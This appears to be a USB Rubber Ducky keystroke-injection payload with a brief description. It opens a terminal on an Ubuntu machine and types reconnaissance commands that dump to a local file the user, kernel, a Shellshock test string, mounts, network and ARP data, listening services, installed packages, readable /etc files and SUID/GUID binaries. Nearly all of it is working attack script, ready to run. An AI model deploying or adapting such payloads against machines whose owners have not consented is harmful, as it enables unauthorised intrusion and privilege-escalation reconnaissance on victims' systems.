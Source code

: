 The following script is an information gatherer script which collects info from a running Ubuntu OS and saves it to a file named "info_gathering.txt". 
The info that the script retrieves is the logged in username, the distribution and kernel version of the running system, the applicability of the shellsock bug, the mounted filesystems, information which is related to the Network adapters, availability of development tools (python, g++), contents of the hosts file and the listening TCP/UDP connections. Apart from that it attempts to find readable folders inside the /etc folder and also prints the SUID and GUID files.

   ` REM Info gathering Ubuntu 1.0 Script issues OS info gathering commands in terminal - by Captain_Harlock`
    `DELAY 3000`
    `ALT F2`
    `DELAY 300`
    `STRING gnome-terminal `
    `DELAY 100`
    `ENTER`
    `DELAY 200`
    `STRING clear`
    `DELAY 10`
    `ENTER`
    `DELAY 50`
    `STRING echo "Logged in user:" $USER > info_gathering.txt`
    `ENTER `
    `DELAY 50`
    `STRING echo >> info_gathering.txt`
    `DELAY 50`
    `ENTER `
    `DELAY 50`
    `STRING echo -n "Distribution Kernel Version:" >> info_gathering.txt`
    `DELAY 50`
    `ENTER `
    `DELAY 50`
    `STRING cat /etc/issue | cut -c1-13 >> info_gathering.txt`
    `DELAY 50`
    `ENTER`
    `DELAY 50 `
    `STRING echo -n "uname results: " >> info_gathering.txt`
    `DELAY 50`
    `ENTER `
    `DELAY 50`
    `STRING uname -a >> info_gathering.txt`
    `DELAY 50`
    `ENTER `
    `DELAY 50`
    `DELAY 50`
    `STRING echo >> info_gathering.txt`
    `DELAY 50`
    `ENTER `
    `DELAY 50`
    `STRING echo "Shellsock Bug Vulnerability" >> info_gathering.txt`
    `DELAY 50`
    `ENTER `
    `STRING echo >> info_gathering.txt`
    `ENTER `
    `DELAY 50`
    `STRING env x='() { :;}; echo vulnerable' bash -c `echo hello` >> info_gathering.txt`
    `DELAY 50`
    `ENTER `
    `DELAY 50`
    `DELAY 50`
    `ENTER `
    `DELAY 50`
    `STRING echo >> info_gathering.txt`
    `DELAY 50`
    `ENTER `
    `DELAY 50`
    `STRING echo "Mounted filesystems" >> info_gathering.txt`
    `ENTER `
    `DELAY 50`
    `STRING mount -l >> info_gathering.txt`
    `DELAY 50`
    `ENTER`
    `DELAY 100`
    `STRING echo >> info_gathering.txt`
    `ENTER`
    `DELAY 50  `
    `STRING echo "Network Configuration" >> info_gathering.txt`
    `DELAY 50`
    `ENTER`
    `DELAY 50`
    `STRING ifconfig -a | grep 'Link\|inet' >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING `
    `STRING echo >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING echo "Print Hosts" >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING cat /etc/hosts >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING `
    `STRING echo echo "Print ARP" >> info_gathering.txt`
    `ENTER`
    `DELAY 50  `
    `STRING arp >> info_gathering.txt`
    `ENTER`
    `DELAY 50 `
    `STRING echo >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING echo "Development tools availability" >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING which gcc >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING which g++ >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING which python >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING echo >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING echo "Print TCP/UDP Listening Services" >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING netstat -tunlpe >> info_gathering.txt`
    `ENTER`
    `DELAY 300`
    `STRING echo >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING echo "Installed Packages" >> info_gathering.txt`
    `DELAY 50`
    `ENTER`
    `DELAY 200`
    `STRING dpkg -l >> info_gathering.txt`
    `ENTER`
    `DELAY 300`
    `STRING echo >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING echo "Find Readable Folders in /etc" >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING find /etc -user `id -u` -perm -u=r -o -group `id -g` -perm -g=r -o -perm -o=r -ls 2> /dev/null >> info_gathering.txt`
    `ENTER`
    `DELAY 500`
    `STRING echo >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING echo "Find SUID and GUID files" >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING find / -type f -perm -u=s -o -type f -perm -g=s -ls  2> /dev/null >> info_gathering.txt`
    `DELAY 50`
    `ENTER`